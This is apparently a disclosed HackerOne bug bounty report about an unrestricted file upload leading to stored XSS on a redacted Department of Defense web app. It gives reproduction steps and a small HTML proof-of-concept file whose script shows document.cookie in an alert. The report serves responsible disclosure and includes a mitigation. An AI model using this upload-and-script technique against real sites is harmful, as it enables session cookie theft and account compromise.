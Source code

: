 # Unrestricted file upload leads to stored xss on https://████████/

## Report Details
- **Report ID**: 854445
- **URL**: https://hackerone.com/reports/854445
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-04-20T18:36:42.403Z
- **Disclosed**: 2020-05-27T14:24:10.310Z

## Reporter
- **Username**: sensoyard
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**

When the user want to upload a "certificate", the web app doesn't check the content-type of the file. A user can upload any kind of file (binary,html,...)

## Step-by-step Reproduction Instructions

1. Create an account at https://██████/████████/app/registration/basic-info

2. When you are connected, click on "certification"

Upload this file as xss.html and save the modifications: 

```html
<!DOCTYPE html>
<html>
  <head>
    <title>Simple Test</title>
    <meta name="viewport" content="initial-scale=1.0">
    <meta charset="utf-8">
  </head>
  <body>
    <script>
	alert(document.cookie	)
	</script>
  </body>
</html>
```
3 . Go back to the "certification tab " and open the attachement in a new tab

POC :https://███/████/registration-service/files/███████.html

## Suggested Mitigation/Remediation Actions
Restrict the content-type of the uploaded files

## Impact

The unrestricted file upload vulnerability leads to stored xss.

## Attachments
No attachments
